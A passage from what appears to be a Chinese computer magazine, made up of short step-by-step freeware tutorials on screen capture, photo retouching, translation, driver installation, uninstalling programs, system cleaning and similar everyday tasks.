第五步：保存与发布游戏。制作完成后，可单击“文件”菜单下的“保存”命令，软件即自动以“游戏名称.fga”为文件名将游戏工程文件保存在设定位置中。另外，为了使游戏独立运行，需对文件进行发布。点击“文件”菜单下的“发布”命令，这时软件会在自身安装目录里生成一个以ex#.fgf方式自动命名的文件以及一个包含.fgf文件信息的ex_content.fgc文件。把这两个文件以及软件安装目录里的FGWplayer.swf文件保存到同一目录中，即可完成发布。

第六步：玩游戏。打开FGWplayer.swf文件（可用IE打开）就可以玩游戏了，会出现选择语言的对话框，选择中文，然后选择fgf游戏文件，再选择“单打”或“双打”即可进入游戏。

怎么样？是不是很简单？只要轻点鼠标，用你的灵感即可创造一款属于你自己的游戏！

## 用Windows照相机轻松捕捉屏幕
文/TMG qf

有时候我们需要捕捉屏幕，Windows照相机就可以帮你这个忙。Windows照相机是一款绿色小巧的捕捉软件，它提供多种捕捉方式，支持完全的键盘操作，可以通过键盘更精确地确定选取的捕捉区域。它还带有自动保存功能，可以批量保存大量图片。

下载地址：http://www.newhua.com/soft/84771.htm

第一步：下载Windows照相机软件，解压缩软件，运行Windows照相机，进入软件主界面。Windows照相机提供了全屏捕捉、窗口捕捉、区域捕捉、对象捕捉四种捕捉类型，我们可以根据需要选择其中一种。如果你要连同光标一同捕捉，只需单击“包含光标”按钮。



第二步：若我们需要捕捉全屏，则单击“全屏捕捉”按钮，单击要捕捉的画面，即将全屏捕捉下来了。

第三步：若我们需要捕捉一个窗口，则单击“窗口捕捉”按钮，即会弹出一个窗口捕捉辅助窗口，我们把鼠标移至需要捕捉的窗口，该窗口就会以红色方框显示出来，然后单击红色方框，此窗口即被捕捉下来了（见图）。

第四步：若我们需要捕捉屏幕上的一个区域，则单击“区域捕捉”按钮，即会弹出一个区域捕捉辅助窗口，我们拖动鼠标框选出需要的区域，然后单击鼠标，被框选的区域即被捕捉下来了。

第五步：若我们需要捕捉屏幕上的一个对象，则单击“对象捕捉”按钮，即会弹出一个对象捕捉辅助窗口，我们单击需要捕捉的对象，即完成了对象捕捉。

第六步：对捕捉下来的图片进行保存。单击“文件”按钮，选择“另存为”选项，输入图片名称，选择保存路径进行保存。要保存大量图片，我们只需在选项面板下面设置自动保存捕捉的图片就可以了。

Windows照相机是一款很小巧的截图软件，使用起来十分方便，并且拥有很强大的捕捉截屏功能。如果你需要经常截图的话，不妨下载试试吧！

## 精彩网页轻松保存
文/TMG qf

现在网上精彩的网页很多，看到时是不是特别想把它保存下来呢？要从网页中提取文本、图片、Flash动画、CSS等多种网页资源，如果直接使用网页另存选项保存往往很繁琐且效果不是很好，那有什么方法可以很好地提取网页内容呢？我们可以通过CYY网页提取助手（下载地址：http://www.onlinedown.net/soft/83541.htm#download）轻松保存精彩网页。

- 第一步：下载CYY网页提取助手，解压缩安装软件。打开软件，在界面顶部单击“选择路径”按钮，设置提取文件的保存位置。
- 第二步：在地址栏输入你想保存的网页地址，单击“打开网页”按钮，即打开了相应的网页。在程序界面的左侧选择想要提取的资源类型，可供选择的类型包括文字、图片、Flash、CSS等多种资源。你只需单击所要提取的资源类型即可查看到可以被提取的资源（见图1）。
- 第三步：若要提取网页中的文字，则单击“文字提取”按钮，就能看到网页被CYY网页提取助手提取出来的文字资源。我们可以方便地在程序所提取的网页文字中进行复制、粘贴、删除等操作。
- 第四步：若要提取网页中的图片，则单击“图片提取”按钮，可以看到提取的图片资源。单击图片下方的“保存本图片”按钮就可以保存图片了。
- 第五步：若要提取网页中的Flash，则单击“Flash提取”按钮，可以看到提取的Flash资源。单击图片下方的“保存本Flash”按钮就可以保存Flash了（见图2）。
- 第六步：若要提取网页中的CSS，则单击“CSS提取”按钮，CYY网页提取助手将CSS资源保存在对话框所提示的位置。
- 第七步：单击“其他提取”按钮，我们可以看到被提取出来的网页中的链接地址。





## 抛弃转换软件——使用播放软件转录高清电影
文/TMG hzl

你有没有想过你的播放软件还可以转录高清电影？你是否还在为该选择什么转换软件来转录高清视频文件而烦恼？其实，一切都很简单，只要你使用的是播放软件PotPlayer，完全不用下载什么转换软件，就可轻松录制高清电影以及将高清文件转录为自己想要的视频格式，而且还是免费的，实在是让人喜出望外。PotPlayer是原KMPlayer作者加盟新公司后编写的一款强悍的全能播放器，融入了KMPlayer的精髓，不仅非常适合播放高清电影，而且还十分适合转换高清文件。我们利用其特点，转录高清文件可谓物尽其才，而且转录成的视频文件质量也让人放心。

- 第一步：下载并安装PotPlayer（下载地址：http://www.newhua.com/soft/42170.htm），然后双击软件图标启动PotPlayer，界面可能会弹出提示提醒更新，注意不要更新版本，否则界面就会出现韩文。接着，在键盘上按下Ctrl+0键，即可选择喜爱的文件打开来播放高清电影。此高清文件也就是我们想要转录的文件。
- 第二步：选取好我们需要转换的文件后，当然就要开始设置转录属性，右击画面，然后选择“视频设置→捕获→视频捕获”，在打开的视频捕获窗口里，我们根据个人喜好，设置保存文件夹和文件格式、编码格式等参数（见图）。
- 第三步：设置完毕后，单击“开始”按钮即可开始进行转录。此时，也不影响高清电影的播放，我们可以一边看电影一边转录文件。转录过程中根据需要单击“停止”按钮，即可停止捕获。
- 第四步：等待一些时间后，高清文件转录完毕可以播放一下，转录成的文件质量相当不错！

有了PotPlayer，不用再下载那些转换软件，就可轻松地转录高清文件，相当方便和实用，而且还可配合其他软件实现一些特殊需求。省时省力又高效，赶紧体验一下吧。



## 看图，你试过3D吗？
文/TMG zlw

朋友，你平时收藏了不少的图片，或者是自己外出旅游拍摄下来的纪念照片，是如何在电脑上浏览的呢？我为这事换过不少的看图软件，但这些看图软件都有一些不能完全满足我需要的地方。有的不能准确地或者是根本不能显示图片的分辨率等信息；有的不能直接对图片进行某些细小的调整；有的甚至没有常见的“旋转”功能。总之，没有一款是我能完全接受的，也许是因为我的要求比较高、比较挑的缘故吧！直到我遇见了它——“3D看”软件，才算是被彻底驯服了。

“3D看”是一款互联网上用来看图的新新族，从名字就可以知道它与传统的平面看图软件是有所区别的。它动感、高清、联动、方便使用，瞬间便拢获了大批支持者。让我们和传统说BYE BYE，跟上“3D看”新潮的脚步吧。

推荐下载地址：http://www.3dkan.com

进入以上网站进行下载，下载下来就可以直接安装，没有必要像其他软件一样麻烦地解压缩。安装好后，就直接进入了“3D看”的主界面。

从它的主界面上，我们就能对它的主要功能有所了解，诸如浏览本机图片、搜索网络图片、观赏好友相册都是它的主要功能，但它的功能远不限于此，下面还是让我来逐个为大家介绍一下吧。



### 浏览本地图片
这个功能是任何看图软件都会有的，可以说是没什么看头。但“3D看”在这个大众功能上也有它的特色。“3D看”提供了两种浏览模式，分别是“图片墙浏览模式”和“全屏读图模式”。



其中“图片墙浏览模式”可以通过调节窗口下方的水平移动旋钮来模拟观看图片处在不同倾斜方式时的效果。而“全屏读图模式”则和传统方式区别不大。在浏览图片的同时，我们还可以直接了解到该图片的某些详细信息，如分辨率大小、图片大小、光圈大小，甚至是焦距、感光度、快门速度等信息。

单击主界面上“浏览本地图片”旁的“打开本地图片”按钮，在打开的“选择图片文件”窗口下选择你需要浏览的电脑中原有的图片。

### 搜索网络图片
同样也是从主界面开始操作，在主界面“搜索网络图片”后键入搜索关键词，然后选择备选图库，有百度、谷歌和搜狗三大图库支持，图片量大得惊人。同时还可以分大图、中图、小图等类型搜索，方式多种多样。

### 观赏好友相册
这个功能和搜索网络图片差不多，区别在于我们在主界面输入的信息不同。需要去好友相册观赏时，直接在主界面上键入好友的QQ号码等资料即可。现在该软件仅支持QQ相册、51相册和新浪博客上图片的观赏。

当你在图片观赏的过程中，找到了自己很中意的亦或是你想分享好友相册的图片。很简单，你只需要在图片墙上点击该图片，该图片立马就会从墙面跳脱出来。

然后你只需要点击“保存”按钮，该图片就会自动保存到本地硬盘里。当然，你也可以另设保存路径，只需在“配置”选项中更改保存路径即可。

使用“3D看”软件浏览图片是不是很过瘾？那就不要再等了，赶快去下一个来体验一下吧，相信它一定会让你的生活更加绚烂、动感的。

## 酷狗音乐帮你定时关机
文/TMG qf

很多时候我们会在深夜挂机，而半夜我们需要爬起来关闭计算机。有没有软件能够自动定时关机的呢？酷狗音乐就是这么一款非常人性化的软件，它不仅在音乐下载和播放功能强大，最重要的是它能让你的电脑在某个指定的时间自动关掉，利用它定时关机十分方便。

下载地址：http://download.it168.com/79/80/646/index.shtml

- 第一步：下载酷狗音乐软件，安装软件。打开软件，点击酷狗音乐2008左上角的“K”字图标，选择“选项设置”菜单（见图1）。
- 第二步：在“常规”选项卡中，勾选“自动关机”项，并设置关机时间，如23：00。单击“应用”按钮。



接下来，你可以选择你喜欢听的歌曲，然后把酷狗音乐2008最小化，到了指定的时间，酷狗音乐会提示是否关机，非常人性化（见图2）。



## 灵格斯词霸——网上全能翻译家

文/TMG zlw

你在浏览网页时遇到大段大段的英文，而且中间还掺杂了很多你不熟悉的单词时，查字典？似乎很麻烦。使用免费翻译软件？这个功能普遍不强大，查查单词或简单的句子还行，复杂的就太“中式英语”了，使用起来感觉还是蛮受限制的。到底该如何是好呢？别急，现在我就向大家推荐一款最全能的免费翻译软件——灵格斯词霸 (下载地址：http://www.lingoes.cn/zh/translator/download.htm)。有三个版本：标准版、简体中文词典版、繁体中文词典版，建议下载“灵格斯词霸2.5.3 (简体中文词典版)”。该版本不大，约8MB左右。下面就让事实来说话，看看“灵格斯词霸”有什么强大功能。

### 超全的免费词典下载

既然是翻译软件，那么词典这个翻译的灵魂组件就显得十分重要，它直接决定着翻译水平的高低。在“灵格斯词霸”里，提供了各式各样的词典供使用者自行下载。除了普遍使用的英文、英汉词典外，还囊括了各类专业词典、多语种词典，甚至是网络语言词典（见图）。



将各类词典集于一身的“灵格斯词霸”成为了能够独当多面的全能选手，相信任何使用者都能得心应手地使用它。更何况这么多的功能都还是免费的，真是让人爱不释手。

### 即时翻译、全文翻译任你选

在线翻译，一般来说大多都是全文翻译。也就是说我们需要把有疑问的单词或者句子复制下来，在翻译软件的相应位置处粘贴，然后点击“翻译”按钮，这样才能得到正确的翻译结果。这样普通的全文翻译功能，“灵格斯词霸”是不会缺少的。只是当我们阅读文章遇到不熟悉处稍多的情况下，一遍遍复制、粘贴，多少让人感觉麻烦。

这时，“灵格斯词霸”创新的即时翻译功能便派上了用场，只需简单地去“灵格斯词霸”官方网站上下载一个“即时翻译-多国语言到汉语”词典即可。何谓即时翻译？简单来说就是指哪译哪、即指即译，只要将光标停留在某一单词上，或者是选中需要翻译的某句话，就能够得到“灵格斯词霸”给我们的翻译答案。让我们在第一时间得到答案，让接下去的阅读丝毫不受影响。在改进之后，甚至还能让使用者直接复制翻译过来的内容，十分人性化。更加可喜的是，“灵格斯词霸”还支持PDF取词，就算是PDF格式上的待译内容，也不需要反复复制，就可以直接点出译后内容。

### 真人发音朗读

你试过一边做家务，一边在电脑上用耳听新闻、听小说，而不是用看的吗？什么，你说不可能？“灵格斯词霸”就让这变成了现实。

你只需选中你想听到的文字，按下“Ctrl+F12”组合键，就可以安安心心地在工作的同时，也能聆听文章的内容了。并且绝对的真人发音，句与句之间还能适当停顿，英文单词和数字也能正确读出，似乎这样强大的功能用来学英语单词也是个不可多得的好方法。

> **小提示**
“灵格斯词霸”除了以上几大亮点外，附加功能也是不容忽视的。不仅链接有实用的外语学习网站，还有不规则动词表、常见英美人名等备忘查找。另外还有为万年历、汇率换算、度量衡换算、国际电话区号等日常生活经常要用到的，但却难以记忆的内容提供查询服务，就像一个便民服务站。

## 你的系统干净吗？

文/TMG hzl

电脑使用时间长了，经常在无意中会受到一些网络恶意程序的攻击，系统中的流氓软件也开始增多，导致电脑性能大大降低，甚至出现蓝屏、反应停滞以及崩溃等症状。怎么给系统清理恶意程序呢？“Windows清理助手”简单易用，清理功能十分不赖，大家可以考虑使用它。

下载“Windows清理助手”软件（下载地址：http://www.newhua.com/soft/52983.htm）。完成安装和每次运行软件时，软件会提示你是否更新，下载最新的引擎版本和库版本，更新后就可以开始对系统进行清理了。

为了尽量避免疏漏恶意程序，为了最大程度地使我们的系统干干净净，要注重细致设置，加大扫描力度和范围，最好把那些恶意程序“一窝端”。

**第一步：**为了防止疏漏，清除彻底，首先要进行一些适用且细致的设置。在软件界面里，我们可以通过“简洁模式”与“高级模式”的切换达到理想的效果。在“简洁模式”界面上，单击右上角的“设置”，打开“设置”页面根据个人需求先进行一些适当的设置操作，比如选中“自动勾选高风险对象”选项，以及“清理时自动修复安全模式”等等。

接着，单击界面底部的“高级模式”，切换到“高级模式”界面，单击“清理相关”，在“清理”、“安装卸载”、“白名单”、“自定义对象”等各个标签中切换；根据个人需求，细致设置，同时选择我们的操作目的，注意不要忘了勾选IE浏览器的清理项目（见图）。

#### 第二步：

在“定制扫描”中，根据实际的需要，选择比较适合我们的扫描方式，同时具体细致合理地选择扫描对象、扫描范围以及设定扫描的文件扩展名，确保扫描操作更具针对性。在这里有三种扫描方式可选择。



#### 第三步：

所有具体细致的设置都大功告成后，我们终于可以放心地扫描我们的系统了，直接单击软件界面右下方的“开始扫描”按钮，软件就自动开始扫描了。扫描完成后，那些我们需要清理的恶意程序就一一出现在列表中。

#### 第四步：

最后，将那些清理的对象全部勾选中，单击“执行清理”按钮进行清理。清理结束后，建议大家进行备份，这样的话我们误删一些重要文件还可以进行挽回。

总的来说，对于那些恶意程序、流氓软件的清理，绿色、免费的“Windows 清理助手”无疑是一位好帮手。不过，它也有个缺陷，就是对于一些病毒与木马程序没有清理能力。试一试Windows清理助手，还电脑一片纯净。

## 美图秀秀帮你完善身材

文/TMG qf

你对自己的身材不够自信吗？为自己的照片不耐看而发愁？不够丰满、眼睛不够大……简直就是灰头土脸的“灰姑娘”。没关系，美图秀秀可以轻松帮你完善身材，尽显迷人风采，一分钟就变白雪公主。

下载美图秀秀软件（下载地址：http://dl.pconline.com.cn/download/51740.html），安装后打开美图秀秀软件，单击“打开一张图片”按钮，选择一张你要编辑的图片。

### 提亮肤色

单击“图片处理”标签，进入图片编辑界面。然后单击右侧的“柔光”效果，使照片变得柔和、朦胧。接下来调高亮度、对比度、饱和度，把画面变得亮起来。这时肤色也跟着被提亮了（见图1）。为你省下买增白化妆品的钱啦！



### 去除色斑瑕疵

增白以后，脸上还有色斑怎么办？

单击“美容”标签，进入美容编辑界面。单击左侧的“磨皮”按钮，弹出人像磨皮的属性框，设置合适的画笔大小及力度。利用画笔工具将人像皮肤中的色斑瑕疵清除掉，再单击“启用”按钮，保存编辑结果就行。

### 电眼+丰满MM

#### 第一步：

返回到“美容”编辑界面，在界面左侧单击“眼睛放大”按钮，弹出“眼睛放大”的属性设置栏，设置画笔的大小及放大缩小系数（见图2）。



#### 第二步：

将鼠标移至照片人物的眼睛处，单击鼠标，你就会发现眼睛瞬间变大了。

#### 第三步：

在左侧单击“睫毛”按钮，再从右侧选择一个合适的睫毛，用鼠标拖入照片中。

#### 第四步：

调整睫毛的大小，使之与眼睛相协调，调整方法与眼睛的一样。

注意啦，“眼睛放大”很有用！将鼠标移至照片人物的胸部，单击鼠标，你会发现胸部瞬间就变大了（见图3）！


短短几分钟，一个皮肤嫩白、眼睛迷人、身材完美的美女就展现在我们眼前了。怎么样，动心了吗？赶紧试试吧！

## 旅游查询好帮手

文/TMG qf

现在有很多朋友喜欢旅游，自助游就是一种很好的方式。但是自助游需要我们对旅游路线、景点有更详尽的了解。以前我们需要仔细翻着纸质地图，自己选择路线、计算路程，现在网络发达了，带上电子地图，各种景点信息一应俱全。中国地图景点就是一款提供旅游全套信息的软件，有了它，我们的出行将轻松便利。

下载中国地图景点软件（下载地址：http://www.newhua.com/soft/59400.htm），解压缩安装软件。运行软件，进入软件主界面。

### 景点查询

在我们旅游出行前，要对所去的旅游景点做个了解，这样才能不遗漏重要的风情特色，玩得更好更尽兴。

第一步：在中国地图景点软件界面的左侧选择你想查看的景点信息。软件把景点按照省份和景点类别分类，这样就能很快找到想去的旅游景点。比如想查看周庄的信息，单击“江苏景点”，在展开目录中找到“周庄”，单击“周庄”。在右侧就能看到周庄的各种信息（见图1）。



第二步：在右侧景点介绍区域查看景点信息，和浏览网页类似操作。这里可以获得很多关于景点的新闻、旅游指南、文化背景、精美图片，有的还提供了景区的地图、票务信息，可以在线订票。

### 城市地图

中国地图景点软件还提供了电子地图功能，对于旅游城市的交通路线，我们可以提前查到。软件提供了三维图、二维图及卫星图，精细地标示出了各个街道、建筑以及公交车站。

第一步：在软件界面左侧栏单击“中国地图”，将会有展开目录，进一步双击我们想要查询的地方，则在右侧会出现地图。比如双击“北京”，右侧就出现了北京的地图，软件默认是三维图，我们可以通过单击地图上的“三维图”、“二维图”、“卫星图”按钮进行切换。

第二步：用鼠标在地图上拖动，查看地图。也可以对地图进行放大、缩小，即单击地图上的“+”按钮对地图进行放大，单击“-”按钮对地图进行缩小（见图2）。



第三步：在软件的最右侧提供了搜索栏，可以对地名、公交线路、景点宾馆等进行搜索，同时地图也会同步跳到查询的目的地，让我们能够快速查询到想得到的信息。

### 商旅信息查询

我们去外地旅游，必然要乘坐汽车、火车、飞机等交通工具，还得住宾馆，这些信息中国地图景点软件也帮你搜集到了，我们可以在线预定。

在软件界面左侧栏单击“综合旅游”，将会有展开目录，目录列出了一些专业从事旅游服务的服务商，我们可以双击进去查看票务、宾馆等信息。比如我们双击“艺龙旅行网”，右侧则会打开它的主页。在右侧的页面上可以查询航班、预定机票酒店等，操作与浏览网页类似（见图3）。



有了中国地图景点软件，我们能轻松了解更多的景点信息，出行将更加便捷。爱好旅游的你是不是也动心了呢？

## 批发音乐——百度歌曲下载器2009

文/TMG hmm

我们常常经历这样一种情况，碰到好听的专辑或者歌曲，要一首首查询、链接、等待，有时还必须将下载下来的歌曲文件重命名。这多浪费时间和精力啊，完全体现不出数字时代带给我们的快捷方便。令人高兴的是，有一款可以批量下载音乐的软件——百度歌曲下载器2009，它不仅提供了多线程下载功能，可以边下载，边搜索歌曲，以不断地添加到下载列表中，还能够自动扫描到不可下载的歌曲链接，按设置选择放弃下载速度低的歌曲，大大加快了下载速度，并且自动将下载下来的歌曲重命名为“歌手名-歌曲名.*”，保存在设定的目录中。搜索与下载歌曲的速度极快是主要特点。

#### 第一步：

首先下载“百度歌曲下载器2009”（下载地址http://www.newhua.com/soft/81961.htm）。安装过程非常简单，只要按照提示点击“下一步”按钮即可。如果电脑是Vista系统，那么点击系统托盘上出现的图表，采用Visual Studio 2008编写的百度歌曲下载器便可直接使用。如果你的电脑是XP系统，则还需安装Microsoft.NET Framework 2.0(22.4MB)。不用担心，首次运行该程序时，系统会自动检测到你的操作系统是否安装了NET Framework 2.0，然后会自动启动安装程序。只需点击“确认下载”按钮，即可轻松下载。当.NET Framework 2.0下载完毕后，系统自动启动其安装程序，按照提示点击“下一步”，便可完成NET Framework 2.0的安装。安装成功后，重新启动“百度歌曲下载器”，即可直接进入主界面。

#### 第二步：

重新启动百度歌曲下载器，点击左上方的“系统设置”按钮，可以看到一个系统设置的画面。用户可以按照自己的喜好，如设定歌曲保存目录、下载歌曲的类型（mp3、wma、rm等）、大小、线程数以及下载速度大小等（见图1）。点击确定，即可设置完毕。



#### 第三步：

软件运行后，将会自动显示歌曲的搜索画面。界面上提供了多种搜索方式，可以帮助用户找到自己需要的音乐。我们可以看到界面的上方提供了两种最简单方便的搜索方式（见图2）。

单选按钮选择搜索方式，即可选择不同的列表类型，如Top200、最新歌曲专辑、热门歌手或乐队列表等。然后从中选择喜欢的对象（歌曲或歌手），右侧将会自动显示出此歌手的所有歌曲列表信息。我们可以根据百度mp3提供的最新歌曲排行榜来直接选择感兴趣的歌手或者音乐，然后勾选选中的歌曲或歌手，点击“下载所选歌曲”，便可批量下载。



第二种是直接输入歌曲或歌手的名字，点击“搜索歌曲”按钮进行搜索；也可以输入歌曲的第一个字母来进行自动搜索。系统能够默认选中“隐藏重复歌曲名”，这样可以过滤掉百度搜索出来重复的歌曲名。搜索完毕后，百度歌曲下载器会将搜索得到的所有结果罗列出来，用户可以通过“上一页”或“下一页”按钮进行查看或选择，然后点击“下载所选歌曲”按钮即可一次性地对所选歌曲进行批量下载。其右侧会显示出所有歌曲正在下载的情况。另外，系统还可以自动将下载下来的歌曲重命名为“歌手-歌曲名.*”。用户在下载过程中，无需等待，还可继续添加下载歌曲或者终止下载歌曲。

另外，百度歌曲下载器提供了自我更新功能，用户可以点击界面中间的“更新”按钮，链接到百度，进行实时更新，借助百度音乐平台，以获得最全最新的歌手、专辑以及歌曲信息。音乐发烧友们，赶紧体验一下这个便捷又实用的工具吧！

## 轻松批量缩放图片

文/TMG qf

现在我们计算机里的图片越来越多，为了方便管理照片，需要对照片进行更名、设置时间以及设置尺寸大小等操作。如果是几张照片，处理起来还不够麻烦，但如果电脑里有成千上万张数码照片，一张一张进行处理显然费时又费力。有什么办法可以批量完成这些管理呢？可以通过批量缩放大师（下载地址：http://www.newhua.com/soft/82293.htm）来批量完成一系列的图片管理工作。

#### 第一步：

下载批量缩放大师软件，解压缩安装软件。打开软件，单击“添加文件”按钮，在弹出的对话框中选择要处理的图片，然后单击“打开”按钮。单击“添加文件夹”按钮，可以添加整个文件夹的图片，这样可更快捷地添加图片。

#### 第二步：

图片添加进入列表后，单击“缩放设置”按钮，进行缩放设置。在此面板中设置图片的尺寸，可以勾选“保持原来的宽度和高度的比例”选项，以保证图片不变形。再单击下面的“点击这里开始批量缩放图片”按钮。

#### 第三步：

单击“输出设置”按钮，选择图片的保存格式及保存路径。再单击“点击这里开始批量缩放图片”按钮，进行批量处理，处理速度很快。

## 驱动程序轻松安装——驱动天使

文/TMG qf

我们在安装完系统后，需要再安装声卡、显卡等驱动，很麻烦，而且时间长了可能找不到原装的驱动光盘，得自己按照硬件型号在网上找匹配的驱动程序。现在有了能够自动安装最新最匹配的驱动程序的“驱动天使”，不用再为驱动程序发愁了。

下载驱动天使（下载地址：http://www.newhua.com/soft/75575.htm），解压缩安装程序，运行驱动天使，进入软件主界面。

### 驱动检测安装

驱动天使能够自动检测计算机的驱动程序，为计算机自动检测最适合最新的驱动软件，并能快速安装上去。这样就省去了我们寻找驱动的麻烦。

- 第一步：在驱动天使主界面中间单击“快速检测”按钮，能够检测出计算机各硬件驱动安装状况。
- 第二步：自动检测后，驱动天使会列出各硬件驱动的状况。硬件驱动有更新的都会用红色标示出来，只需单击“安装驱动”就可以更新驱动了（见图1）。
- 第三步：安装完驱动后，重启一遍计算机，各硬件就应用更新的驱动了。



### 备份驱动

我们有时需要备份驱动以备以后还原的时候用，驱动天使就提供了驱动的备份还原功能。

单击软件主界面上方的“驱动管理”选项卡，在左侧会显示出“备份驱动”、“还原驱动”、“卸载驱动”按钮。

单击“备份驱动”按钮，在主界面的右侧会列出各硬件驱动，选择需要备份的驱动，再单击“立即备份”按钮，在弹出的对话框中选择备份路径即可开始驱动的备份操作了。

若要还原驱动，在弹出窗口中选择驱动备份文件夹，再在弹出的日历表中选择备份日期。设置好后，单击“立即还原”按钮。

我们还可以对一些版本不对或安装错误的驱动进行卸载。单击主界面上的“卸载驱动”按钮，在右侧的驱动列表中选择需要卸载的驱动，再单击“驱动卸载”按钮。

### 硬件检测

驱动天使还提供了很多的其他功能，可以自动检测硬件状况，还可以对Windows系统打上补丁，更新功能模块。

单击软件主界面上方的“使用帮助”选项卡，在左侧会显示出“硬件天使”、“升级天使”、“检查更新”等按钮（见图2）。

单击“硬件天使”按钮，可以检测各硬件的性能状况；单击“升级天使”按钮，可以检测出需要升级的软件，单击即可安装；单击“检查更新”按钮，可以检测出需要更新的Windows系统组件。

管理计算机，提高计算机性能，把工作交给“驱动天使”吧。



## 轻松简便去除图片水印

文/TMG qf

网络上很多的图片都有LOGO水印，这些LOGO水印往往是作者有意添加或者程序自动添加的。加上这些LOGO水印可以防止图片被盗用，同时也可以给自己做一下广告。虽然这些LOGO水印只是淡淡的一层，却给我们带来很多不便，怎样才能去掉呢？

去除LOGO水印的方法有不少，可以用Photoshop的仿制图章工具、修补工具、修复画笔工具等去除图片上的水印。但是用Photoshop去图片水印比较麻烦，而且对使用者的图片处理能力也有一定的要求。我们还可以使用专门的去除图片水印的软件，或将它配合Photoshop一起使用，达到更好的去除图片水印的效果，比如通过Teorex Inpaint（下载地址：http://www.skycn.com/soft/40946.html）轻松去除图片水印。

下载Teorex Inpaint，解压缩运行Teorex Inpaint.exe。对于追求快速简单的初学者，运用Teorex Inpaint的“伪装”功能最合适不过了。

- 第一步：选择菜单栏“文件”中的“打开”命令，打开如图所示的带有水印的图片。
- 第二步：选择工具栏中的“索套”工具，框选LOGO水印。如果图片中的LOGO水印是规则的图形，则用“矩形索套”即可；如果图片中的LOGO水印是不规则图形，则要使用“自由索套”工具将其轮框绘制出来。
- 第三步：选择菜单栏中的“伪装→运行”命令，软件会自动分析LOGO水印周围的背景颜色和布局，并利用背景颜色自动填充被索套的地方，从而使图片看上去衔接自然；看不出原来LOGO水印的痕迹。但有时候一次运算并不能达到很好的效果，需要我们再次进行处理。

第四步：对于不理想的部分，我们可以用同样的方法分次选择，经过多次分析处理后，最后得到满意的效果。

在实际运用中，更多时候我们所遇到的问题并不像上图那么单纯，如果还是仅仅依靠上文所述的工具和方法，结果是不尽如人意的，这个时候我们还是得借助Photoshop，用“仿制图章”消除LOGO水印。这一方法比较适合较熟悉软件、注重细节的动手一族。

首先选择菜单栏“文件”中的“打开”命令，打开带有水印的图片。然后选择工具栏“仿制图章”工具，先要确定仿制源，例如按住Alt键同时单击水印旁边的图形确定仿制源，然后在LOGO水印处进行点击、涂抹，大功告成！

## 轻松卸载不留痕——Total Uninstall卸载软件

文/TMG zlw

用电脑就不可能不安装软件，当我们不再需要这些软件，想卸载掉这些软件时，麻烦事也就一件紧接着一件地到来了。

通过软件自带的卸载程序，十有八九不能彻底卸载，往往会遗留下一些残余的系统文件和注册表垃圾，占用电脑空间，从而导致电脑系统越来越慢。以前自己就经常陷入这样的恶性循环中而不得自拔。不过现在好了，有了Total Uninstall的帮助，软件能够彻底卸载干净，电脑系统不再深受其害。同时它不仅具备普通的卸载功能，还具有监视软件安装的功能。

这款软件不大，仅2344KB，汉化操作让我们使用起来没有隔阂。最重要的是它是免费的，任何人都能拥有它。下载软件（下载地址：http://www.newhua.com/soft/23140.htm），并将其安装好。开始运行软件，进入Total Uninstall主界面。

通过这个界面，我们可以全面了解目前电脑系统里都安装了哪些软件，并且这些软件安装的详细信息我们也可以通过该界面了解得一清二楚。

### 监视软件的安装

单击Total Uninstall主界面上的“模块”菜单，选择“已监视的应用软件”，然后单击“安装”按钮。

在接下来出现的“安装”对话框中，按要求输入“应用程序名称”，并选择正确的“安装程序路径”，勾选“构建一个新的快照”单选项，最后点击“下一步”即可。

这时，Total Uninstall会自动对电脑系统进行快速的扫描，并形成安装该软件前的系统快照（见图1）。接着勾选“立即启动安装程序”，点击“下一步”。这时，Total Uninstall窗口中，“立即启动安装程序”变成灰色，“应用程序已安装。创建安装后的快照并查找更改内容”选项被选中。直接点击“下一步”。

Total Uninstall会自动对系统再进行一次扫描，并将前后两次扫描后的快照进行对比，列表显示结果。从这张表中，我们就可以清楚地看出软件安装前后的注册表键、值与文件数（见图2）。看完后，就直接点击“关闭”，回到Total Uninstall主界面上去吧。

这时你就能在主界面左边的窗口看到被监视安装程序列表，点击其中的某个安装程序，就可以从右边窗口看到该软件安装后被更改文件和注册表键、值的详细资料了。

Total Uninstall还能将这一结果导出，以TXT文件的形式保存下来。





### 卸载已安装程序

其实了解了前面监视软件安装的过程后，就很容易理解卸载这一过程了。因为它实质上就是将监视软件安装这一过程逆向操作而已。

在“Total Uninstall主界面”上点击“卸载”按钮，就会弹出一个卸载窗口，其中标明了需要卸载的应用程序名称，直接点击“下一步”，卸载过程就交由系统自己进行了。待应用程序卸载完成后，Total Uninstall的主界面会出现一个帮助你分析的软件卸载日志。

其实在卸载软件过程完成后你也可以选中Total Uninstall中的软件信息条，单击右键，将这些软件信息全部删除。当然不删除这些，它也不能对系统产生任何影响了。不过在这我还建议大家辛苦一点，把它删干净吧。

就这样，无论任何软件都可以轻松、安全地卸载干净，完全不留痕迹。让你的宝贝电脑不受影响，专心工作，提高效率。

## 全面清扫系统“垃圾”，让电脑运行如新

文/TMG hzl

我们都有这样的感受，电脑刚开始使用时迅疾而至、健步如飞，而随着时间的增加，我们的电脑不知不觉中变得“慢悠悠”，甚至严重的时候还会出现“死机”现象，实在让人心烦。其实，这是因为我们电脑长时间使用后，可用内存逐步减少，垃圾文件也不断堆积增多而导致成这样的。想不想让你的电脑恢复当初的英姿，重新轻装上阵？想不想再度享受极速前进的快感？下面，我们就来借助PC Washer这款电脑系统清理工具的帮助，全面“清扫”系统里的那些“垃圾”，让我们的电脑恢复健康，运行如新。

软件下载地址：英文版下载http://www.newhua.com/soft/66852.htm
汉化版下载http://www.uushare.com/user/daydreamerxp/file/1506301

下载软件英文版安装程序，安装过程中只需按照软件提示一路单击“Next”即可完成安装，然后解压汉化版，双击“ACleaner.exe”文件，即可进入PC Washer汉化版的软件主界面。

### 清理硬盘和注册表的任何垃圾，提高系统运行速度

首先，我们要知道最影响系统运行速度的，是那些堆积如山的Windows注册表无用文件和硬盘里的垃圾文件，那么怎么可以全面且彻底地清除这些“垃圾”呢？很简单，通过PC Washer，我们可以很轻松快捷地把这些“垃圾”清理掉，毫不费事。

**第一步：** 我们首先当然是先把那些“垃圾”找出来，也就是对电脑硬盘进行扫描作业，所以先单击软件左侧“扫描”图标进入扫描设置。

**第二步：** 接着我们在软件信息扫描选项中根据自己的需要进行一些选择，比如选择“扫描间谍程序和广告软件”、“垃圾文件扫描”和“注册表扫描”等等。选择好后，单击界面右下角“扫描”图标，开始扫描（见图1）。



**第三步：** 扫描结束后，在弹出的对话框里单击“是”按钮即可查看扫描结果。

